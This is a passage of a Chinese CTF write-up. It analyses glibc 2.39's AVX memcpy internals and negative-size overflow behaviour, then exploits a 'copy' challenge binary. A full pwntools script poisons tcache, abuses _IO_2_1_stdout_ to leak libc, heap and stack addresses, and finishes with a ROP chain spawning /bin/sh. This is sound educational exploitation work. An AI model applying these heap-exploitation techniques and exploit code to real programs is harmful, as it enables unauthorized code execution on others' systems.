  	VMOVA	%VMM(2), VEC_SIZE(%rdi)
  	VMOVA	%VMM(3), (VEC_SIZE * 2)(%rdi)
  	VMOVA	%VMM(4), (VEC_SIZE * 3)(%rdi)
  	subq	$-(VEC_SIZE * 4), %rdi
  	cmpq	%rdi, %rdx
  	ja	L(loop_4x_vec_forward)
  ```

* 最后将最后4个VEC_SIZE长度的内容和头部VEC_SIZE长度的内容分别存入到`rdx`和`rcx`指针处：[memmove-vec-unaligned-erms.S#L495](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S#L495)

  ```assembly {hide = true}
  	/* Store the last 4 * VEC.  */
  	VMOVU	%VMM(5), (VEC_SIZE * 3)(%rdx)
  	VMOVU	%VMM(6), (VEC_SIZE * 2)(%rdx)
  	VMOVU	%VMM(7), VEC_SIZE(%rdx)
  	VMOVU	%VMM(8), (%rdx)
  	/* Store the first VEC.  */
  	VMOVU	%VMM(0), (%rcx)
  ```





**ERMS**（Enhanced REP MOVSB/REP MOVSD）是一个在现代处理器中常见的硬件特性，`REP MOVSB` 和 `REP MOVSD` 是 x86 指令集中的指令，用于进行内存拷贝操作，通常配合 `LOOP` 或其他条件判断来重复执行。ERMS 提供了一种优化机制，能够在硬件层面上加速这些内存拷贝操作。

汇编中通常通过通过调用`CPUID`指令并查看`ECX`寄存器中的返回值的标志位来检查 CPU 是否支持 ERMS 特性。

在Linux bash中，可以使用如下命令来检查 CPU 特性：

```bash
grep -o 'erms' /proc/cpuinfo
```

在 Windows 系统中，可以使用 `wmic` 命令行工具或者查看 CPU 支持的指令集。





1. **非时间性存储（non-temporal store）**通常依赖于特定的指令，这些指令能够直接将数据写入内存，而不经过CPU的缓存层。不同的处理器架构提供了不同的非时间性存储指令，以下是x86/x86_64架构下几种常见的非时间性存储指令：

   * `MOVNTQ`：将 64 位数据存储到内存中，不经过缓存。
   * `MOVNTPS`：将 128 位单精度浮点数据存储到内存中，不经过缓存。
   * `MOVNTDQA`：将 128 位数据存储到内存中，不经过缓存。

   调用举例：

   ```assembly {hide = true}
   section .data
       array resq 10   ; 分配 10 个 64 位元素的内存
   
   section .text
       global _start
   
   _start:
       ; 假设 rax 中保存的是要存储的 64 位数据
       mov rax, 1234567890
       mov rbx, array    ; 将 array 的地址加载到 rbx 寄存器
       movntq [rbx], rax ; 将 rax 中的 64 位数据存储到 array[0]，且不通过缓存
   ```

2. **页面别名（Page aliasing）**是指源地址和目标地址所在的内存页存在重叠或部分重叠的情况，具体来说就是它们在物理内存上共享相同的页，如果使用自动向量拷贝可能会发生错误（[参考](https://docs.unity3d.com/Packages/com.unity.burst@1.6/manual/docs/OptimizationGuidelines-Aliasing.html)）。当源地址和目标地址所处的内存页有“别名”关系时，意味着它们指向相同或非常接近的物理页面区域，或者<u>它们的内存页大小接近但对齐不同，从而可能会映射到相同或相邻的物理内存页面</u>。
   在memcpy中，当src与dst页对齐地址的差值小于 `8 * VEC_SIZE` 时，则认为发生了“页面别名”的情况。

   

   

3. Non-temporal store 可以在发生 page alias 的情况下避免冲突，主要是因为它绕过了缓存系统的工作原理，直接将数据写入内存：

   * 跳过缓存：传统的内存存储会将数据写入 CPU 缓存（L1、L2、L3 缓存），然后再写入主内存。如果多个虚拟地址映射到相同的物理内存页，这些地址的缓存可能会发生竞争（cache contention），引发缓存一致性问题。而 non-temporal store 直接写入内存，不经过缓存，因此不会在缓存中产生冲突。
   * 避免缓存污染：在多线程环境下，如果多个线程频繁访问同一内存页，它们的缓存可能会在频繁的读取和写入操作之间产生竞争。而 non-temporal store 则避免了缓存这一过程，从而避免了缓存污染（cache pollution）的问题。在 aliasing 情况下，非临时存储指令不关心哪些虚拟地址映射到相同的物理页面，因此它避免了缓存系统的管理问题。
   * 减少一致性负担：缓存一致性协议（如 MESI 协议）确保了多个缓存之间的数据一致性。然而，如果多个线程或进程操作同一物理页面时，缓存一致性协议可能需要频繁地更新缓存内容，导致性能下降。通过直接将数据写入内存，non-temporal store 减少了缓存一致性协议的负担，从而避免了因 aliasing 导致的性能问题。



# memcpy整型溢出

**以`__memmove_avx_unaligned_erms`（`VEC_SIZE=0x20`）为例**，当size为负数时，有2种情况可控：

1. `dst-src < size`：**反向拷贝**，此时`dst>src`或`dst<src && dst-src<size`（比size更小的负数）

   ```asm {hide = true}
       ; 预存src~src+0x20到vmm0
       vmovdqu ymm0, ymmword ptr [rsi]
       ...
       more_8x_vec_backward:
       ; 预存src+0x20~src+0x80到vmm5~7，src+size-0x20~src+size到vmm8
       ; 将dst对齐到VEC_SIZE，对齐后的指针存入$rcx，src加上dst对齐后的偏移
       vmovdqu ymm5, ymmword ptr [rsi+20h]
       vmovdqu ymm6, ymmword ptr [rsi+40h]
       lea     rcx, [rdi+rdx-81h]
       vmovdqu ymm7, ymmword ptr [rsi+60h]
       vmovdqu ymm8, ymmword ptr [rsi+rdx-20h]
       sub     rsi, rdi
       and     rcx, 0FFFFFFFFFFFFFFE0h ; aligned dst:   $rcx = (dst+size-0x81)&-0x20
       add     rsi, rcx                ; unaligned src: $rsi = src+($rcx-dst)
       .p2align 4,, 11
   loop_4x_vec_backward:
       ; 每次拷贝4*VEC_SIZE
       vmovdqu ymm1, ymmword ptr [rsi+60h]
       vmovdqu ymm2, ymmword ptr [rsi+40h]
       vmovdqu ymm3, ymmword ptr [rsi+20h]
       vmovdqu ymm4, ymmword ptr [rsi]
       add     rsi, 0FFFFFFFFFFFFFF80h ; $rsi -= 0x80
       vmovdqa ymmword ptr [rcx+60h], ymm1
       vmovdqa ymmword ptr [rcx+40h], ymm2
       vmovdqa ymmword ptr [rcx+20h], ymm3
       vmovdqa ymmword ptr [rcx], ymm4
       add     rcx, 0FFFFFFFFFFFFFF80h ; $rcx -= 0x80
       cmp     rdi, rcx
       jb      short loop_4x_vec_backward
       ; dst<$rcx 结束循环
       ; 将vmm0,vmm5~7存入dst~dst+0x80，vmm8存入dst+size-0x20~dst+size
       vmovdqu ymmword ptr [rdi], ymm0
       vmovdqu ymmword ptr [rdi+20h], ymm5
       vmovdqu ymmword ptr [rdi+40h], ymm6
       vmovdqu ymmword ptr [rdi+60h], ymm7
       vmovdqu ymmword ptr [rdx+rdi-20h], ymm8
       vzeroupper
       retn
   ```

2. `src-dst < size`：**正向拷贝**，此时`src>dst`或`src<dst && src-dst<size`（比size更小的负数）

   ```asm {hide = true}
       ; 预存src~src+0x20到vmm0
       vmovdqu ymm0, ymmword ptr [rsi]
       ...
   more_8x_vec_forward:
       ; 预存src+size-0x80~src+size到vmm5~8
       ; 将dst对齐到VEC_SIZE，dst存入$rcx，对齐后的指针存入$rdi，src加上dst对齐后的偏移
       vmovdqu ymm5, ymmword ptr [rsi+rdx-20h]
       vmovdqu ymm6, ymmword ptr [rsi+rdx-40h]
       mov     rcx, rdi  ; $rcx = dst
       or      rdi, 1Fh
       vmovdqu ymm7, ymmword ptr [rsi+rdx-60h]
       vmovdqu ymm8, ymmword ptr [rsi+rdx-80h]
       sub     rsi, rcx
       inc     rdi       ; aligned dst:   $rdi = (dst|0x1f)+1
       add     rsi, rdi  ; unaligned src: $rsi = src+($rdi-dst)
       lea     rdx, [rcx+rdx-80h]
       .p2align 4,, 11
   loop_4x_vec_forward:
       ; 每次拷贝4*VEC_SIZE
       vmovdqu ymm1, ymmword ptr [rsi]
       vmovdqu ymm2, ymmword ptr [rsi+20h]
       vmovdqu ymm3, ymmword ptr [rsi+40h]
       vmovdqu ymm4, ymmword ptr [rsi+60h]
       sub     rsi, 0FFFFFFFFFFFFFF80h ; $rsi += 0x80
       vmovdqa ymmword ptr [rdi], ymm1
       vmovdqa ymmword ptr [rdi+20h], ymm2
       vmovdqa ymmword ptr [rdi+40h], ymm3
       vmovdqa ymmword ptr [rdi+60h], ymm4
       sub     rdi, 0FFFFFFFFFFFFFF80h ; $rdi += 0x80
       cmp     rdx, rdi
       ja      short loop_4x_vec_forward
       ; dst<$rdi 结束循环
       ; 将vmm5~8存入dst+size-0x80~dst+size，vmm0存入dst~dst+0x20
       vmovdqu ymmword ptr [rdx+60h], ymm5
       vmovdqu ymmword ptr [rdx+40h], ymm6
       vmovdqu ymmword ptr [rdx+20h], ymm7
       vmovdqu ymmword ptr [rdx], ymm8
       vmovdqu ymmword ptr [rcx], ymm0
       vzeroupper
       retn
   ```

3. `src-dst >= size`：按每次0x80的大小同时对2或4页进行拷贝，**不好控，别用**

## 小结

size为负数时，**反向拷贝**会覆盖到3个部分，其中

* 【1】【3】部分可以通过控制`size`可以实现上溢
* 【2】部分当堆块大小小于0x80时可以实现下溢

伪代码：

```c
if ( (src<dst && src-dst>size) || (dst<src && dst-src<size) ) {
  aligned_dst = (dst+size-0x81)&-0x20; // 将dst+size-0x81地址0x20对齐
  unaligned_src = src+(aligned_dst-dst);
  // 1
  memcpy(aligned_dst, unaligned_src, 0x80);
  // 2
  memcpy(dst, src, 0x80);
  // 3
  memcpy(dst+size-0x20, src+size-0x20, 0x20);
}
```

size为负数时，**正向拷贝**会覆盖到3个部分，其中

* 【1】部分dst地址对齐后可以实现下溢
* 【2】部分通过控制`size`可以实现上溢
* 【3】部分当堆块大小小于0x20时可以实现下溢

伪代码：

```c
if ( (dst<src && dst-src>size) || (src<dst && src-dst<size) ) {
  aligned_dst = (dst|0x1f)+1; // 将dst地址0x20对齐
  unaligned_src = src+(aligned_dst-dst);
  // 1
  memcpy(aligned_dst, unaligned_src, 0x80);
  // 2
  memcpy(dst+size-0x80, src+size-0x80, 0x80);
  // 3
  memcpy(dst, src, 0x20);
}
```

# 分析利用

> [!warning]
>
> 远程采用的是avx512指令集，`VEC_SIZE=0x40`，调用的是`__memcpy_avx512_unaligned_erms`；本地采用的是avx2指令集，`VEC_SIZE=0x20`，调用的是`__memcpy_avx_unaligned_erms`。
>
> 此处以本地实际情况为主进行分析利用。

题目只有`add`和`copy`功能，没有`edit`和`free`。

`add`只能用8次，大小必须小于等于0x100，通过`fgets`读入，长度由`strlen`决定（输出没有`\0`截断，但是长度会被截断）

```c {hide =true}
else if ( (unsigned int)note_cnt < 8 )
{
  printf("size: ");
  __isoc99_scanf("%ld%*c", &size);
  if ( size <= 0x100 )
  {
    s = (char *)malloc(size + 1);
    fgets(s, size + 1, stdin);
    size = strlen(s);
    note_list[note_cnt] = (uint8_t *)s;
    idx = note_cnt++;
    size_list[idx] = size;
  }
  else
  {
    printf("[!] invalid notes size\n");
  }
```

`copy`有整型溢出漏洞，size可以为负数，size要小于等于dst和src的长度

```c {hide =true}
printf("dst: ");
__isoc99_scanf("%d", &dst);
if ( dst < note_cnt )
{
  printf("src: ");
  __isoc99_scanf("%d", &src);
  if ( src < note_cnt )
  {
    printf("len: ");
    __isoc99_scanf("%ld", &len);
    if ( (signed __int64)len <= size_list[dst] && (signed __int64)len <= size_list[src] )
      memcpy(note_list[dst], note_list[src], len);
    else
      printf("[!] invalid copy size\n");
  }
  else
  {
    printf("[!] invalid copy destination\n");
  }
}
else
{
  printf("[!] invalid copy source\n");
}
```

由于没有`free`，故我们只能通过修改`top_chunk`size并申请大堆块，将top_chunk链入unsortedbin/largebin在堆上留下main_arena指针，才能通过`copy`完成后续利用。

解题思路：

1. 利用`copy`溢出覆盖`top_chunk`size
2. 用`scanf`申请大堆块释放`top_chunk`进入unsortedbin
3. 利用`copy`溢出低字节覆盖`main_arena`指针指向`_IO_2_1_stdout_`，再将其复制到`tcache_perthread_struct.entris[]`中，同时伪造`tcache_perthread_struct.cnts[]`
4. 从tcache申请到`_IO_2_1_stdout_`，利用输入结尾的`\x0a\x00`低字节覆盖`_IO_write_base`，泄露出libc和heap指针
5. 申请一个新堆块写入`_IO_2_1_stdout_`和`heap+0xd0`（指向`tcache_perthread_struct.entris[]`中0xa0大小的entry），利用`copy`溢出将其复制到`tcache_perthread_struct.entris[]`中
6. 再次从tcache申请到`_IO_2_1_stdout_`，覆盖`_IO_write_base = &_environ; _IO_write_ptr = _IO_write_end = &_environ+8`，泄露stack指针
7. 从tcache申请到`heap+0xd0`，将`main`函数的栈上返回地址写入`tcache_perthread_struct.entris[]`
8. 从tcache申请到`main`函数的栈上返回地址，写入rop完成利用

> [!caution]
>
> 1. 第6步覆盖`_IO_write_base/_IO_write_ptr/_IO_write_end`时，注意要连着`_IO_buf_base`和`_IO_buf_end`一起构造，否则会Segment fault
>
> 2. 第7步将栈上返回地址写入`tcache_perthread_struct.entris[]`时，由于chunk需要0x10对齐，所以要写`ret_addr-8`的位置连着`$rbp`一起覆盖，否则`tcache_get_n`会报错["malloc(): unaligned tcache chunk detected"](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3183)
>
> 3. 第8步执行system时，如果`$rsp`没有0x10对齐`movaps`指令会Segment fault，所以在ROP里多加了一个`ret`：
>
>    ```gdb {hide =true}
>    Program received signal SIGSEGV, Segmentation fault.
>    0x000079104525843b in do_system (line=0x7910453cb42f "/bin/sh") at ../sysdeps/posix/system.c:148
>             
>    ──────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────
>     ► 0x79104525843b <do_system+363>    movaps xmmword ptr [rsp + 0x50], xmm0     <[0x7ffd8d16ab48] not aligned to 16 bytes>
>       0x791045258440 <do_system+368>    call   posix_spawn                 <posix_spawn>
>                
>    ───────────────────────────────────────[ SOURCE (CODE) ]────────────────────────────────────────
>     In file: /usr/src/glibc/glibc-2.39/sysdeps/posix/system.c:148
>       143   __posix_spawnattr_setsigdefault (&spawn_attr, &reset);
>       144   __posix_spawnattr_setflags (&spawn_attr,
>       145                               POSIX_SPAWN_SETSIGDEF | POSIX_SPAWN_SETSIGMASK);
>       146 
>       147   ret = __posix_spawn (&pid, SHELL_PATH, 0, &spawn_attr,
>     ► 148                        (char *const[]){ (char *) SHELL_NAME,
>       149                                         (char *) "-c",
>       150                                         (char *) "--",
>       151                                         (char *) line, NULL },
>       152                        __environ);
>       153   __posix_spawnattr_destroy (&spawn_attr);
>    ```

# 本地Exp

```python
from pwn import *

local = 1
pc = './copy'
aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF(pc)

if local == 1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
else:
    remote_addr = ['node4.buuoj.cn', 6666]
    p = remote(remote_addr[0], remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def add(size, content):
    ru("> ")
    sl("0")
    ru("size: ")
    sl(str(size))
    if len(content) <= size:
        sl(content)
    else:
        sn(content)

def copy(dst, src, size):
    ru("> ")
    sl("1")
    ru("dst: ")
    sl(str(dst))
    ru("src: ")
    sl(str(src))
    ru("len: ")
    sl(str(size))

def bye():
    ru("> ")
    sl("2")

if __name__ == "__main__":
    # step1: overwrite top_chunk size
    chunk0 = b"\x11"*0x30 + p64(0x45c0)*2
    chunk0 += b"\x11"*0x40 + p16(7)*3
    add(0xf7, chunk0) #0

    chunk1 = b"\x22"*0x28
    chunk1 += p64(0xb41)
    chunk1 = chunk1.ljust(0x90, b'\x22')
    add(0xf7, chunk1) #1

    chunk2 = b"\x33"*0x27
    add(0x27, chunk2) #2

    copy(2, 1, -0x80)

    # step2: free top_chunk through scanf and put it in unsortedbin
    ru("> ")
    sl("0")
    ru("size: ")
    sl('0'*0x1000+str(0x101))

    # step3: partial overwrite main_arena pointer, and point to _IO_2_1_stdout_
    copy(0, 2, -0xce)
    copy(1, 2, -0xce)
    copy(1, 2, -0xd0)
    copy(0, 2, -0x1d0+0x20)
    copy(1, 2, -0x190+0x80)
    copy(0, 2, -0x290+0x80)

    # step4: partial overwrite _IO_write_base low 2 bytes by "\n\x00" to leak libc and heap addr
    chunk3 = p64(0xfbad2887|0x1802) + p64(0xdeadbeef)*3
    add(0x97, chunk3) #3 -> stdout
    rv(0x48-0xa)
    libc_base = u64(rv(8)) - 0x1bd4a0
    rv(0x1000)
    sleep(0.2)
    rv(0x1000)
    sleep(0.2)
    res = rv(0x1000)
    sleep(0.2)
    ld_base = u64(res[0xc68:0xc70]) - 0x1250
    res = rv(0x1000)
    sleep(0.2)
    heap_base = u64(res[0x1d9:0x1e1])
    lg("libc", libc_base)
    lg("ld", ld_base)
    lg("heap", heap_base)

    # step5: arrange the pointers of _IO_2_1_stdout_ and tcache_perthread_struct
    # in tcache_perthread_struct in advance
    environ_addr = libc_base + 0x20ad58
    stdout_addr = libc_base + 0x2045c0

    chunk4 = p64(stdout_addr) + p64(heap_base+0xd0)
    add(0xf7, chunk4) #4
    copy(0, 2, -0x10)
    copy(0, 2, -0x1d0+0x20)

    # step6: overwrite _IO_write_base to leak stack addr by _environ
    fake_file = p64(0xfbad3887) + p64(libc_base + 0x204643)*3
    fake_file += p64(environ_addr) + p64(environ_addr+8)*2
    fake_file += p64(libc_base + 0x204643) + p64(libc_base + 0x204644)
    add(0x97, fake_file) #5
    stack_addr = u64(rv(8))
    lg("stack", stack_addr)

    # step7: put ret_addr to tcache_perthread_struct
    ret_addr = stack_addr - 0x130
    lg("ret", ret_addr)
    fake_tcache = p64(ret_addr-8)*4 # chunk needs to be aligned to 0x10
    add(0xa7, fake_tcache) #6

    # step8: happy rop~
    libc.address = libc_base
    ret = libc_base + 0x000000000002882f
    prdi = libc_base + 0x000000000010f75b
    binsh = libc_base + 0x00000000001cb42f
    rop = p64(0) #rbp
    rop += p64(ret) # $rsp needs to be aligned to 0x10
    rop += p64(prdi) + p64(binsh)
    rop += p64(libc.symbols["system"])
    add(0xc7, rop) #7
    bye()

    p.interactive()
```

